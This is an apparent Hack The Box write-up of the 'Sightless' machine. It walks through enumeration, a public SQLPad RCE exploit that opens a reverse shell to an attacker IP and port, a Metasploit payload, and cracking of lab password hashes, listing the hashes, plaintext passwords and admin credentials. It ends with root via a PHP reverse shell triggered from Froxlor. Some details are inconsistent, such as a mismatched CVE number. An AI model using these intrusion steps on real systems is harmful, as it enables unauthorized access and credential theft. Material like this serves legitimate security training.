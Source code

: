 ## Hackthebox Sightless Writeup 10.129.21.27

### Nmap enumeration

	Nmap scan report for 10.129.21.27
	Host is up, received reset ttl 63 (0.053s latency).
	Scanned at 2024-09-22 20:12:21 CDT for 71s

	PORT   STATE SERVICE REASON         VERSION
	21/tcp open  ftp     syn-ack ttl 63
	| fingerprint-strings: 
	|   GenericLines: 
	|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.129.21.27]
	|     Invalid command: try being more creative
	|_    Invalid command: try being more creative
	22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGoivagBalUNqQKPAE2WFpkFMj+vKwO9D3RiUUxsnkBNKXp5ql1R+kvjG89Iknc24EDKuRWDzEivKXYrZJE9fxg=
	|   256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA4BBc5R8qY5gFPDOqODeLBteW5rxF+qR5j36q9mO+bu
	80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-title: Did not follow redirect to **http://sightless.htb/**
	|_http-server-header: nginx/1.18.0 (Ubuntu)
	1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
	SF-Port21-TCP:V=7.94SVN%I=7%D=9/22%Time=66F0C080%P=aarch64-unknown-linux-g
	SF:nu%r(GenericLines,A1,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20F
	SF:TP\x20Server\)\x20\[::ffff:10\.129\.21\.27\]\r\n500\x20Invalid\x20comma
	SF:nd:\x20try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x
	SF:20try\x20being\x20more\x20creative\r\n");
	Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
	OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
	Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.0 (96%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 5.0 - 5.5 (94%), Linux 2.6.32 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
	No exact OS matches for host (test conditions non-ideal).
	TCP/IP fingerprint:
	SCAN(V=7.94SVN%E=4%D=9/22%OT=21%CT=%CU=31167%PV=Y%DS=2%DC=T%G=N%TM=66F0C0BC%P=aarch64-unknown-linux-gnu)
	SEQ(SP=FC%GCD=1%ISR=104%TI=Z%CI=Z%II=I%TS=A)
	SEQ(SP=FE%GCD=1%ISR=103%TI=Z%CI=Z%II=I%TS=C)
	OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)
	WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
	ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)
	T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
	T2(R=N)
	T3(R=N)
	T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
	IE(R=Y%DFI=N%T=40%CD=S)
	
From out nmap scan we can see the IP 10.129.21.27 is trying to redirect to http://sightless.htb on port 80. Let's add this to our /etc/hosts file and enumerate the web site on port 80. 

### Adding IP to /etc/hosts

![Hosts](/Hack_The_Box/Sightless/hosts-file.png) 

Viewing the source code of sightless landing page we can find a sqlpad subdomain. Let's also add this to our /etc/hosts file and continue with enumeration. Sightless appears to be a development software from reading the home page.

Sightless is also an Enginx Server running on Ubuntu OS. Therefore, php, and html extensions will most likely be common.


![sql subdomain](/Hack_The_Box/sql-subdomain.png) 

The sqlpad subdomain looks like it might let up execute and run SQL queries. Lets try loading and running xp_cmdshell.

![sqlpad](/Hack_The_Box/Sightless/images/sqlpad.png) 


Enumerating the sqlpad domain with dirsearch returns a manifest.json file that we can view.

![dirsearch](/Hack_The_Box/Sightless/images/dirsearch.png) 

![dirsearch](/Hack_The_Box/Sightless/images/directory-access.png) 

I'm going to see if I can run curl against the url to view the contents.

The manifests file doesn't return any information but clicking the 3 dots on the web page we can see that this is version 6.10 and searching SQLPad exploits we do see one for RCE on github catagorized as [CVE-2022-9444](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944). 


After downloading the github repo to my host machine I run the exploit script without and ags and I can see that it accepts the following arguments:

1. root_url
2. attacker_ip
3. attacker_port

I'm going to start a netcat listener on port 4444

Next I will run on my kali host:
	$ python3 exploit.py http://sqlpad.sightless.htb 10.10.14.X 4444


And we get an initial shell on the machine, it appears we are in a docker container.

![Shell](/Hack_The_Box/Sightless/images/shell.png) 


### Exploitation

Viewing the sqlite db file in /var/lib/sqlpad we can see 2 user accounts.

1. john@sightless.htb
2. admin@sightless.htb

Python isn't installed in the docker container so I'm going to create a metasploit payload so I can transer files.

![Metasploit](/Hack_The_Box/Sightless/images/met-payload.png) 

And transfer the payload to the target.

![Metasploit](/Hack_The_Box/Sightless/images/transfer.png) 


Set up the Metasploit multi / handler

![Metasploit](/Hack_The_Box/Sightless/images/transfer.png) 

After executing my payload on the target I get a meterpreter shell on my attack host.


![Metasploit](/Hack_The_Box/Sightless/images/meterpreter.png) 


I pulled this hash out of the sqlprod db file. I will try to crack it.

$2a$10$cjbITibC.4BQQKJ8NOBUv.p0bG2n*********

I was able to crack the hash with JtR. It appears to be a hash for john. Let's see if I can SSH into the main box and get out of this docker shell.

![JtR](/Hack_The_Box/Sightless/images/hash-crack.png) 

Looking at the /etc/passwrd file we see 3 users with shell access. Root, node, and michael.


![/etc/passwrd](/Hack_The_Box/Sightless/images/passwrd.png) 

Shadow File

![/etc/shadow](/Hack_The_Box/Sightless/images/shadow.png) 

Using unshadow I was able to get root and Michael's hashes. I will now try and crack them. 

$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.

$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/

John successfully cracked both hashes. Let's see if we can login via ssh.

Hashes:

blindside
insaneclownposse


![JtR](/Hack_The_Box/Sightless/images/john.png) 

One of the hashes works to login via SSH to Michael account.

![SSH](/Hack_The_Box/Sightless/images/ssh.png) 

Sightless internal netstat ports listening

127.0.0.1:33060
127::3000
127.0.0.1:3306
127.0.0.1:8080


![Network](/Hack_The_Box/Sightless/images/netstat.png) 
![Network](/Hack_The_Box/Sightless/images/netstat2.png) 




### Privilege Escalation

Searching linpeas output Chrome is running -remote debugging-port=0. This appears exploitable.

I also noticed an additional subdomain. admin when I was parsing linpeas output. I'll add it to my /etc/hosts file. 

![Priv Esc](/Hack_The_Box/Sightless/images/chrome.png) 


I next locally port forwarded all the listening ports on the target to my attack machine.


![SSH Local](/Hack_The_Box/Sightless/images/ssh-local.png) 

Now within firefox I will add them all in.

chrome://inspect/#devices


After adding all the ports and capturing the requests in chrome debugger we find that the login is the following credentials.

Username: admin
Password: ForlorfroxAdmin

![Froxlar login](/Hack_The_Box/Sightless/images/login.png) 


For root I copied a php reverse shell to /tmp on michael's ssh session. 

From froxlor I will now create a new php version and have it set to the command /tmp/shell.php and save. I will then deactive and active the service to trigger my shell and get root access. Don't forget to have a listener on your attack machine.


![tmp shell](/Hack_The_Box/Sightless/images/php-shell.png) 


![Froxlar](/Hack_The_Box/Sightless/images/change-version.png) 

![Froxlar](/Hack_The_Box/Sightless/images/disable.png) 

![Froxlar](/Hack_The_Box/Sightless/images/enable.png) 

We should now get a call back with a root shell on our attack machine.

![Root](/Hack_The_Box/Sightless/images/root.png) 

![Root](/Hack_The_Box/Sightless/images/cleanup.png) 
